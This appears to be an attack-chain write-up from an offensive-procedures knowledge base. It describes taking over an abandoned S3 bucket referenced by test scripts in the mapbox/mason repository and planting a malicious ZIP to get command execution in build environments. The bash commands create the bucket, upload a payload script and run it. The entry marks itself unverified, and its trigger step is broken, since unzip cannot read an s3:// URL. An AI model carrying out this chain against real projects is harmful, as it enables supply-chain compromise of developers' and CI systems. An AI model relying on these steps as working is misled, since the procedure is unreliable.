

# S3 Bucket Takeover Leading to RCE via Unsafe Unzip in Mason Repository Test Scripts

Multi-stage attack chain demonstrating a complete attack workflow exploiting AWS S3 global namespacing to reclaim an abandoned bucket, followed by injecting malicious content to trigger RCE in referenced test scripts.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 2 |
| Execution Time | ~15 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- [[tools/AWS-CLI]]
- Standard ZIP utility (e.g., zip, unzip)

### Target Environment

- AWS account with permissions to create S3 buckets
- Access to clone and run the mason-repository (GitHub)
- Target: Abandoned S3 bucket names referenced in open-source code

### Initial Access Requirements

- No prior credentials needed for bucket creation (public namespace exploitation)
- Network access to AWS APIs and GitHub
- Knowledge of target bucket names from code references

## Detailed Attack Procedures

### Step 1: Reclaim Abandoned S3 Bucket
procedure: [[procedures/Reclaim-Abandoned-S3-Bucket-via-Global-Namespacing]]

**Objective**: Exploit AWS S3 global namespacing to claim control of a deleted bucket name still referenced in target code, gaining the ability to serve malicious content.

**Instructions**: Identify the abandoned bucket name from code references (e.g., in mason-repository test scripts for PostGIS). Use [[commands/aws-s3-mb-create-bucket]] to create the bucket with the exact name.

```bash
aws s3 mb s3://abandoned-bucket-name --region us-east-1
```

Verify ownership with [[commands/aws-s3-ls-list-buckets]]:

```bash
aws s3 ls s3://abandoned-bucket-name
```

Upload a proof-of-concept file to confirm control:

```bash
aws s3 cp poc.txt s3://abandoned-bucket-name/
```

**Expected Output**: Bucket creation confirmation and successful upload, indicating takeover.

**Success Indicators**:
- Bucket created without errors (namespace available)
- Contents accessible via AWS console or CLI

### Step 2: Exploit Unsafe Unzip for RCE
procedure: [[procedures/Exploit-Unsafe-Unzip-in-Mason-Repository-for-RCE]]

**Objective**: Upload a malicious ZIP archive to the reclaimed bucket and demonstrate how test scripts download and unzip it unsafely, leading to command injection in the build environment.

**Instructions**: Clone the mason-repository and inspect test scripts for PostGIS that reference the bucket. Create a malicious ZIP with a payload (e.g., a script that executes `whoami` or injects commands). Upload using [[commands/aws-s3-cp-upload]]:

```bash
echo '#!/bin/bash
echo "RCE Triggered" > /tmp/pwned.txt
whoami >> /tmp/pwned.txt' > malicious.sh
zip malicious.zip malicious.sh
aws s3 cp malicious.zip s3://abandoned-bucket-name/postgis-test.zip
```

Run the test script to trigger download and unzip (hypothetical execution in CI/build env):

```bash
git clone https://github.com/mapbox/mason.git
cd mason
# Simulate test run referencing bucket
unzip -o s3://abandoned-bucket-name/postgis-test.zip  # Unsafe, no validation
chmod +x malicious.sh
./malicious.sh
```

**Expected Output**: Malicious script extracted and executed, creating /tmp/pwned.txt with evidence of injection.

**Success Indicators**:
- ZIP downloaded and unzipped without validation
- Payload script runs, confirming command injection

## Attack Chain Summary

### Key Achievements

1. Successful takeover of globally namespaced S3 bucket previously owned by Mapbox.
2. Injection of malicious ZIP into referenced test scripts for PostGIS in mason-repository.
3. Potential RCE via unsafe unzip operations leading to arbitrary command execution in build environments.

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Supply Chain Compromise]] Supply Chain Compromise
- [[Exploitation for Client Execution]] Exploitation for Client Execution

### MITRE ATT&CK Tactics

- [[Initial Access]] Initial Access
- [[Execution]] Execution

---

*Last updated: 2023-10-01T00:00:00Z*
